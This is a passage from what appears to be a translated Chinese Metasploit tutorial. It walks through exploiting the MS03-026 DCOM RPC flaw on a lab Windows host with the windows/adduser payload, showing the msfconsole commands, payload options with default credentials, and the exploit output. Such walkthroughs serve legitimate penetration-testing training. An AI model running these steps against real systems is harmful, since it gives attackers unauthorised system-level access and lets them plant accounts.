 这里，`RHOST`表示远程主机的 IP 地址，`RPORT`表示默认绑定端口。`RPORT`的值默认设置为`135`。我们将不得不将`RHOST`的值设置为我们的目标 IP 地址，以执行 exploit：

```
msf exploit(ms03_026_dcom) > set RHOST 192.168.56.102
RHOST => 192.168.56.102
msf exploit(ms03_026_dcom) > 
```

### 注意

请注意，`ms03_026_dcom` exploit 的 ID 设置为`0`。这意味着我们不需要指定目标上运行的 Windows 机器。它可以利用其中列出的任何 Windows 机器。对于任何其他 exploit，我们可能需要使用`show targets`命令选择目标操作系统。

现在，`RHOST`的值已设置为我们的目标 IP 地址。如果我们尝试运行 exploit，我们将收到错误消息。原因是我们尚未为 exploit 选择任何有效载荷。

1.  我们的下一步将是选择相关的有效载荷。我们可以使用`show payloads`命令列出所有可用的有效载荷。我们将从`windows/adduser`有效载荷的简单示例开始。此有效载荷将在目标操作系统中添加一个新用户：

```
msf exploit(ms03_026_dcom) > set PAYLOAD windows/adduser
PAYLOAD => windows/adduser 
```

1.  现在，如果我们再次使用`show options`命令，它将列出 exploit 和 payload 的参数。有效载荷参数将如下所示：

```
Payload options (windows/adduser):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes seh, thread, process, none
PASS metasploit yes password for this user
USER metasploit yes The username to create 
```

我们可以看到将添加到我们的目标操作系统的默认用户名和密码是`metasploit`和`metasploit`。我们可以使用`set PASS`和`set USER`命令更改这些值。

1.  现在我们的有效载荷已设置好，我们准备渗透目标机器。我们将使用以下命令启动 exploit：

```
msf exploit(ms03_026_dcom) > exploit
[*] Trying target Windows NT SP3-6a/2000/XP/2003 Universal...
[*] Binding to 4d9f4ab8-7d1c-11cf-861e-0020af6e7c57:0.0@ncacn_ip_tcp:192.168.56.102[135] ...
[*] Bound to 4d9f4ab8-7d1c-11cf-861e-0020af6e7c57:0.0@ncacn_ip_tcp:192.168.56.102[135] ...
[*] Sending exploit ...
[*] Exploit completed, but no session was created. 
```

输出的最后一行显示 exploit 已成功完成在目标机器上。现在将在目标机器中添加一个新用户。输出还表示未创建任何会话。这是因为我们使用的有效载荷是一个简单的`adduser`，不需要任何活动会话。因此，一旦 exploit 完成，与目标的连接就会结束。在下一个步骤中，我们将使用有效载荷设置会话。

## 工作原理...

RPC 的一部分存在漏洞，该漏洞涉及通过 TCP/IP 进行消息交换。失败是因为对畸形消息的处理不正确。这种特定的漏洞影响具有 RPC 的**分布式组件对象模型（DCOM）**接口，该接口监听 RPC 启用的端口。因此，目标机器必须具有运行 RPC 服务的可用端口。

此接口处理由客户机发送到服务器的 DCOM 对象激活请求。成功利用此漏洞的攻击者将能够以受影响系统上的本地系统特权运行代码。攻击者将能够在系统上执行任何操作。这包括安装程序、查看/更改/删除数据或创建具有完全特权的新帐户。

